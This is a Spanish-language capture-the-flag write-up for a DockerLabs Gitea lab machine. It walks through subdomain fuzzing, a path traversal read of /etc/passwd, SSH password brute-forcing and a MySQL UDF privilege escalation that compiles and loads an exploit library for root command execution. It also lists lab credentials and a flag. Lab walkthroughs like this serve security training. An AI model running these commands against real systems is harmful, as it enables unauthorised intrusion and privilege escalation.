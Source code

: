 nmap: 22, 80, 3000

![image](https://github.com/user-attachments/assets/19f5d5f2-4a90-4310-bbd4-14c4d074484e)

---

nos vamos a la pagina del puerto 80 y 3000

![image](https://github.com/user-attachments/assets/283cdfa3-b5ec-4a3c-991f-3de987903851)

![image](https://github.com/user-attachments/assets/cac418c6-5aa8-469d-b685-ca99582d7e5c)

en la pagina no hay mucho mas que información y en la pagina del puerto 3000 hay una versión pero no hay exploit de esa versión, solo de la 1.22.4 que es la versión anterior.
en el código fuente hay unos puntos importantes

![image](https://github.com/user-attachments/assets/ce7b0baa-b7cc-4ba5-bb70-d78531b01a98)

primero un URL que si la ingresamos a hosts nos enviara otra vez a la pagina del puerto 3000, y abajo hay un  "csrftoken"  con un código, pero la verdad que el código da unos números pero probablemente hay un login. 
ahora probando otra vez con la URL que encontramos en el código fuente la vamos modificando, entonces ingresamos un "gitea.dl" y veremos que tenemos un login

![image](https://github.com/user-attachments/assets/43f97f17-701f-4f35-bda2-c011ac2f4b13)

como vemos en los login da algunas credenciales pero no funcionan pero por si acaso la vamos a guardar. 

     admin@gitea.com 
    PassAdmin123-

ahora haremos un FFUF

     ffuf -c -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -u http://gitea.dl -H "Host: FUZZ.gitea.dl" -fs 13615 

![image](https://github.com/user-attachments/assets/2e7dbd84-4137-443e-a09d-0ee7009e42f5)

nos da "dev" lo agregamos al hosts y nos da esta pagina

![image](https://github.com/user-attachments/assets/05956581-0749-4020-8a5f-b92ce366fd05)

como no tenemos mucho hacemos un gobuster para descubrir mas si es que tiene mas

     gobuster dir -u http://dev.gitea.dl/ -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt  -x php,html,py,txt -t 64


![image](https://github.com/user-attachments/assets/80e2421b-114a-4f26-9292-8999e4a9289f)

nos dio uno llamativo que es "search" 

![image](https://github.com/user-attachments/assets/a2bc71b8-baca-4f8c-90ad-9ff1cb6689f8)

probamos pero no da nada y como vimos al principio en el código fuente da una URL que contiene este usuario creo yo, lo añadimos al hosts

![image](https://github.com/user-attachments/assets/40987377-ac21-483e-9b77-f593b40f2a2c)

obtenemos esta pagina pero al final de la pagina da un nombre que podría ser un usuario, pero no tiene muchas cosas mas, así que le seguimos buscando y haciendo otro FFUF

![image](https://github.com/user-attachments/assets/672314d3-5037-410a-a274-971939e3554e)

    ffuf -c -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -u http://s3cr3tdir.dev.gitea.dl -H "Host: FUZZ.s3cr3tdir.dev.gitea.dl" -fs 13615 

ahora hacemos lo mismo pero agregamos el "s3cr3tdir"

![image](https://github.com/user-attachments/assets/da39d60e-1ad4-425a-86db-9d23d4a835cc)

y como vemos tenemos lo mismo que vimos en el primer codigo que es el URL exactamente igual. 

![image](https://github.com/user-attachments/assets/e4ff1364-7c5e-4684-ab51-c989c3690ff7)

pero nos vamos a logear ahora para ver que hay. 

![image](https://github.com/user-attachments/assets/e2e4b9c1-e70a-4f24-83cb-7967c4ebb5f1)

nos iremos a explore y veremos esos 3 repositorios  y el que contiene un código es el 
myapp >> app.py

![image](https://github.com/user-attachments/assets/d7fe65e3-4e5b-4ad5-b287-4a5427fbac17)

y en esta linea tiene una vulnerabilidad

![image](https://github.com/user-attachments/assets/80bab679-f105-4f05-9313-42f17fe260ff)

a esa vulnerabilidad se le puede realizar un "path traversal" en la pagina principal o sea gitea.dl, así que podemos descargar archivos con esa vulnerabilidad o lograr visualizar 

lanzamos 

     curl "http://gitea.dl/download?filename=../../../../../etc/passwd"

![image](https://github.com/user-attachments/assets/84fca510-da6f-4769-a0da-0971b91dd0e2)

y vemos que nos entrega la información que esperamos, buscamos en los otros archivos otras funciones o códigos y encontramos esto

![image](https://github.com/user-attachments/assets/9f7db90f-7928-4ee7-a5fc-16f780298705)

probamos lo mismo pero con el código de info.txt

![image](https://github.com/user-attachments/assets/bf1346cf-0dd1-4ade-b7f4-223ea0709eaa)

nos da un error así que probamos, pero nos dice que hay un archivo de la información en /opt así que probamos suerte

![image](https://github.com/user-attachments/assets/ba45147a-eb4a-46da-b6af-ae6db5f9a380)

se logra la magia y tenemos usuarios y contraseñas como textos. pero no creo que esos son los usuarios reales, así que vamos hacer un ataque de fuerza bruta. 

creamos una carpeta con las contraseñas y hacemos una fuerza bruta con el usuario "designer" que es el usuario del git donde están los códigos. 

![image](https://github.com/user-attachments/assets/12dd3a10-60c2-4949-9c95-ef7ceb5c8e35)

obtenemos la contraseña de "ssh"

![image](https://github.com/user-attachments/assets/284c3fce-a6ca-43b9-86eb-412d780ece0a)

ingresamos con las credenciales y tenemos la flag de user

     4683f3b0c2f083bb9588370c0f8ab284

![image](https://github.com/user-attachments/assets/3b1385f7-eb6c-4a4e-bdd8-76146427a376)

como se ve tenemos un puerto abierto de forma local "127.0.0.1:3306"  y 3306 funciona con mysql y tenemos credenciales de un login así que probamos entrar a la base de datos con las credenciales que nos dio el login

      admin@gitea.com 
    PassAdmin123-

     mysql -u admin -pPassAdmin123-


![image](https://github.com/user-attachments/assets/a789dd0d-a870-4178-88b5-584369ca5407)

tenemos acceso a la base de datos, vamos a realizar esta escalada: https://docs.databricks.com/gcp/en/udf/ (User-Defined Functions) UDF  lo que es pocas palabras

     técnica para escalar privilegios que consiste en cargar una librería compartida maliciosa con el fin de ejecutar código externo y definido por nosotros a nivel de sistema

entonces comenzamos con

    SHOW VARIABLES LIKE '%plugin_dir%';

![image](https://github.com/user-attachments/assets/c7ee88db-2796-4966-8079-d0024a778961)

     SHOW VARIABLES LIKE '%secure_file_priv%';

![image](https://github.com/user-attachments/assets/3c1fb019-8d91-4d75-8ada-bfb07c7df1b3)

![[dockerlabs/medio/gitea/test27.png]]

ahora buscamos una vulnerabilidad o exploit basado en este ataque 

![[dockerlabs/medio/gitea/test28.png]]

nos sirve el primero así que lo tomamos

![[dockerlabs/medio/gitea/test29.png]]

dentro de se exploit contiene un código que intenta cargar códigos o archivos en "system()" así que vamos a pasarlo a la maquina victima

![[dockerlabs/medio/gitea/test30.png]]

ahora lanzamos estos comandos

    gcc -g -c 1518.c
      gcc -g -shared -Wl,-soname,exploit_udf.so -o exploit_udf.so 1518.o -lc

![[dockerlabs/medio/gitea/test31.png]]

tendremos los 3 documentos ahora movemos el exploit a plugins para que la cargue

     mv exploit_udf.so /usr/lib/mysql/plugin/

ahora nos vamos a la base de datos y nos conectamos creamos la función que haga referencia a la librería que agregamos o sea el exploit 

    CREATE FUNCTION do_system RETURNS STRING SONAME 'exploit_udf.so';

![[dockerlabs/medio/gitea/test32.png]]

entonces el exploit cargado podemos ejecutar comando a nivel sistema, podemos por ejemplo cargar una reverse shell hacia nuestro puerto para conectarnos directo a root 

![[dockerlabs/medio/gitea/root.png]]

somos root! 
